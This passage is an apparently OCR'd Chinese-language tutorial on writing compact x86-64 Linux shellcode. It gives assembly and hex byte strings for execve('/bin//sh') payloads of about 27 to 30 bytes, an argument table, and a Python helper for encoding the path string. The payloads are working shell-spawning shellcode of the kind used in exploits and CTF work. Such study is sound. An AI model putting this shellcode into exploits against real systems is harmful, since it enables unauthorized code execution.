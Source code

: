 ```
push rdx     ; null
push rdi     ; address of shell[0]

; We need pointers for execve()
push rsp     ; address of char * shell
pop rsi      ; Argument 2

syscall

_do:
ret
```

```
\x48\x31\xc9\x48\xf7\xe1\xe8\x16\x00\x00\x00\x04\x3b\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x52\x53\x54\x5f\x52\x57\x54\x5e\x0f\x05\xc3
```

##### 3.  27bytes

```
global _start
section .text

_start:
xor eax, eax
mov rbx, 0xFF978CD091969DD1    ;68732f2f6e69622f的neg   
neg rbx 	;neg   把操作数按位取反，末位加1
push rbx     
pop rdi
cdq
push rdx
push rdi
;mov rsi, rsp
push rsp
pop rsi
mov al, 0x3b
syscall
```

```
\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05
```

### 4.改  30bytes

| rax  |    rdi     |     rsi      | rdx  |
| :--: | :--------: | :----------: | :--: |
|  59  | '//bin/sh' | ['//bin/sh'] | NULL |

​		首先  /bin/sh  参数用 python 生成逆序的十六进制，这里多加一个 / 用来占空，防止出现 0x00

```
python  //启动python
string = "//bin/sh"
string[::-1].encode('hex')
```
